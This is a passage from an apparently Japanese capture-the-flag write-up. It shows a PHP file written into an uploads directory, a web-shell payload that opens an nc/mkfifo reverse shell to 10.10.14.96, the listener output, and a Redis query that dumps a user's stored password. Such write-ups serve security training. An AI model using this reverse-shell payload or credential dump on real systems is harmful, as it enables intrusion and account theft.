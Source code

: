 ![](https://storage.googleapis.com/zenn-user-upload/d872bff66792-20231001.png)

![](https://storage.googleapis.com/zenn-user-upload/14d8448f1a97-20231001.png)

他に書き込みもできないかどうか試したところ、`header` に内容を書き込めることがわかりました。次の例は `uploads` に `exe.php` というファイルを作成し、`id` を実行したものです。

![](https://storage.googleapis.com/zenn-user-upload/017cc3714a00-20231001.png)

![](https://storage.googleapis.com/zenn-user-upload/1179e2ddcdc0-20231001.png)

## リバースシェル

`uploads` にファイルを書き込めるようになったので、リバースシェルで接続します。色々と試してみたところ、次の PHP で上手くいきました。

```php
<?php echo shell_exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.96 1234 >/tmp/f");?>
```

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.96] from (UNKNOWN) [10.10.11.213] 40722
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## user.txt

`www-data`に接続できましたが、このままでは `user.txt` を見ることはできません。

```
$ cat /home/cooper/user.txt
cat: /home/cooper/user.txt: Permission denied
```

ここで、データベースが Redis だったことを思い出し、データベースに接続してみました。以下の結果は、出力を見やすくするために改行や `>` を追加したものです。この結果から、`cooper` のパスワードが `zooperdoopercooper` だと判明しました。

```
$ redis-cli -s /var/run/redis/redis.sock
> KEYS *
PHPREDIS_SESSION:ud9jgn24eoid2n2so6t8nric63
cooper.dooper:sites
mateor
PHPREDIS_SESSION:m4d8nqvmm9vjgso8btf1rstm9c
tyo
tyo:sites
cooper.dooper

> HGETALL cooper.dooper
username
cooper.dooper
password
zooperdoopercooper
first-name
Cooper
last-name
Dooper
pro
false
```
